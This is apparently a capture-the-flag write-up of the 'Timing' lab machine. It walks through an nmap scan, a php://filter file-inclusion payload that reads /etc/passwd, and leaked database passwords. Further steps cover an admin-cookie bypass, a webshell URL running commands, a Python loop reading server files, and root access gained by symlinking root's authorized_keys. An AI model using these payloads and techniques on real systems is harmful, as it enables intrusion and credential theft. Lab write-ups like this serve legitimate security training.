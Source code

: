 # Timing

![Timing.png](Timing/Timing.png)

Nmap scan to discover open ports and service versions.

```python
# Nmap 7.92 scan initiated Tue Dec 28 16:29:54 2021 as: nmap -sV -o nmap-default 10.10.11.135
Nmap scan report for 10.10.11.135
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 16:30:19 2021 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Directory scanning on port 80.

![Untitled](Timing/Untitled.png)

A parameter was found in the “image.php” file.

![Untitled](Timing/Untitled%201.png)

```python
php://filter/convert.base64-encode/resource=/etc/passwd
```

DB_conn password:

```c
mysql
host=localhost
dbname=app
root
4_V3Ry_l0000n9_p422w0rd
```

Code some scripts to auto explore the vulnerability without need to send the payloads on the URL of the browser.

Interesting code in the logout:

![Untitled](Timing/Untitled%202.png)

Other interesting code line in the upload

![Untitled](Timing/Untitled%203.png)

The login of the panel is aaron:aaron, the name of the user.

Bypassing the admin_auth_check parsing the name of the cookie.

![Untitled](Timing/Untitled%204.png)

When we send the POST request it shows one more file to us:

![Untitled](Timing/Untitled%205.png)

It set the role in the current session:

![Untitled](Timing/Untitled%206.png)

Send the request to update session

![Untitled](Timing/Untitled%207.png)

Now the admin auth doesn’t return erros.

![Untitled](Timing/Untitled%208.png)

In the main page return we have a new item called “admin panel”.

![Untitled](Timing/Untitled%209.png)

In the avatar we can upload images.

![Untitled](Timing/Untitled%2010.png)

The upload script creates a hash based on “$file_hash” string more the current time more a “_” and the name of the archive. 

So we must have to create a local script, take the time, try to send the upload archive in the same time.

![Untitled](Timing/Untitled%2011.png)

With the time, try to create hashes based on the start +1, like this.

![Untitled](Timing/Untitled%2012.png)

Output of the PHP script.

![Untitled](Timing/Untitled%2013.png)

Sending a LFI with the hash and the local PATH of the image show us the PHP file.

![Untitled](Timing/Untitled%2014.png)

Bypassing the read of the file:

![Untitled](Timing/Untitled%2015.png)

The shell didn’t work because I send the PHP file with the get in lower case, so to be more faster I did a script to make the requests based in a wordlist automatically:

![Untitled](Timing/Untitled%2016.png)

```c
import requests
import base64
import sys

f = open("word.txt", "r")

for i in f:
	URL = "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/images/uploads/"+str(i[:-1])
	print(URL)
	req = requests.get(URL)
	new=base64.b64decode(req.text)
	print(new.decode("utf-8"))

f.close()
```

URL:

```c
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode|convert.base64-decode/resource=/var/www/html/images/uploads/5d79f0fdcdd0c15d6b719d913d10d713_shellzinha.php.jpg&cmd=id
```

I don’t achieve the reverse shell, so I code a script to make interactive commands and I found a backup file in opt directory.

![Untitled](Timing/Untitled%2017.png)

With this file I send to the HTML directory and  I downloaded the zip archive:

![Untitled](Timing/Untitled%2018.png)

Probably an user password:

![Untitled](Timing/Untitled%2019.png)

```c
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
```

The SSH session with aaron and the obtained password worked:

![Untitled](Timing/Untitled%2020.png)

Binary that we can run with sudo using the aaron user:

![Untitled](Timing/Untitled%2021.png)

The script request FTP servers and HTTP, if you send a file the binary download the file and save in actual directory.

![Untitled](Timing/Untitled%2022.png)

Thinking in a way to elevate privileges create a dynamic link with root authorized keys link, and try to send a id_rsa.pub with the same name of the link 

![Untitled](Timing/Untitled%2023.png)

Download with the binary and try to connect using the private key:

Root user with success!

![Untitled](Timing/Untitled%2024.png)